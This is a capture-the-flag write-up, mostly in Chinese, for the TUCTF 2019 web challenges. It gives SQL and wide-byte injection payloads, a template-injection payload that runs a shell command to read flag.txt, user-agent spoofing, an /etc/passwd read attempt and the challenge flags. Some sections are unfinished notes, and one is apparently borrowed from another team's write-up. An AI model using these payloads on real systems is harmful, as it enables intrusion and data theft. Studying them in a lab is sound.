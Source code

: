 categories:
- 比赛
tags:
- wp
- ctf
title: tuctf2019
---
# tuctf2019

## web

### Router Where Art Thou?

 http://chal.tuctf.com:30006/0.html 

 http://chal.tuctf.com:30006/1.html

 http://chal.tuctf.com:30006/2.html  

` FIXME: need to use Page::includeStaticResource `

`2.html:603  hidden variables, we are going to set this to the session, bug fix 2157`

https://192.168.1.254/



....爆破密码获得flag

### Login to Access

当Referer不为http://chal.tuctf.com:30001/login.html时,存在sql注入

当Referer: http://chal.tuctf.com:30001/login.hmtl时sql 注入被过滤

对第一种情况sql注入得到

```python
#database:information_schema,challenge,mysql,performance_schema,sys 
#table:users
#columns:user,password,USER,CURRENT_CONNECTIONS,TOTAL_CONNECTIONS
#user,password,USER : dave,hunter2,dave
```



利用得到的账号密码直接在第二步登陆无效,猜测第二步还要sql注入

- sql注入

``` python
dave'+or+1%23 x
dave"+or+1%23 x
dave")+or+1%23 x
dave')+or+1%23 x
\转义'或"来逃逸失败


```

宽字节注入:

```python
#username=%2bsleep(10)&password=%bf%5c" x
#username=%2bsleep(10)&password=%bf%5c' x
#username=%bf%5c"&password=%2bsleep(10) x
#username=%bf%5c'&password=%2bsleep(10) x
```







sql注入点时username还是password

是单引号还是双引号闭合

过滤了哪些字符，转义了哪些字符

We then looked at the challenge’s description again and realized that there might be backup of file somewhere. We then tried to get the **login.php.bak**.

![img](https://khroot.com/wp-content/uploads/2019/11/image-201.png)

Surprise, there really is a backup file there. Let’s see what is inside.

![img](https://khroot.com/wp-content/uploads/2019/11/image-202-1024x385.png)

We found the flag, and it is `TUCTF{b4ckup5_0f_php?_1t5_m0r3_c0mm0n_th4n_y0u_th1nk}`

### The Droid You're  Looking For

看到droid想到robots.txt,直接访问提示没有权限

因为robots.txt是给爬虫看的,所以去百度了一个google爬虫的user-agent:

```
Mozilla/5.0 (Linux; Android 6.0.1; Nexus 5X Build/MMB29P) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2272.96 Mobile Safari/537.36 (compatible; Googlebot/2.1;
```

robots.txt

```
User-agent: *
Disallow: googleagentflagfoundhere.html
```

TUCTF{463nt_6006l3_r3p0rt1n6_4_r0b0t}



### And Now, For Something Completely Different

```python
Traceback (most recent call last):
  File "/usr/local/lib/python2.7/dist-packages/tornado/web.py", line 1509, in _execute
    result = method(*self.path_args, **self.path_kwargs)
  File "/usr/src/app/class_website.py", line 87, in post
    if len(name) == 0 or len(phone_num) == 0 or len(email) == 0 or len(passwd2) == 0 or passw != passw2:
NameError: global name 'passwd2' is not defined
```

在网页中发现

```html
<!-- TODO: add /welcome/test -->
```

打开只有welcome test <==> /welcome/test

猜测是ssti


```
{{__import__('os').popen('cat flag.txt').read()}}
```

 TUCTF{4lw4y5_60_5h0pp1n6_f0r_fl465} 



### Cute Animals Company

修改cookie获得登陆权限

sqlmap得到密码

file:///etc/passwd获得flag???

http访问都不行的呀

